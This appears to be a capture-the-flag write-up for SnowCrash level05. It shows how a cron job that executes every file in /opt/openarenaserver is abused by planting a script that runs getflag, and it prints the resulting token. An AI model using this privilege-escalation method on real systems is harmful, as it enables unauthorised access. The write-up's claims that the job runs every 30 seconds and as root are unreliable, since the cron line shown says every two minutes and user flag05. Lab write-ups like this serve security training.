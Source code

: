 ## --------------> Vulnerability

Privilege escalation with script

When we log in as level 5, we receive an automated notification.

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

User flag05 appears to have told us that he set up a cron job to run every 30 seconds (which should round to 1 minute) while the following script is executed as root:


```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```

As we can see, it will loop over all of the files in /opt/openarenaserver and run them in a bash shell.
As a result, we must construct a bash script in that directory and run it as root.
Because the operaneserver script does not return or print the command's output, we must ensure that it is redirected to a file in /tmp.
```
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/token" > /opt/openarenaserver/token
level05@SnowCrash:~$ cat /opt/openarenaserver/token
/bin/getflag > /tmp/token
```
Wait few minutes
```
level05@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
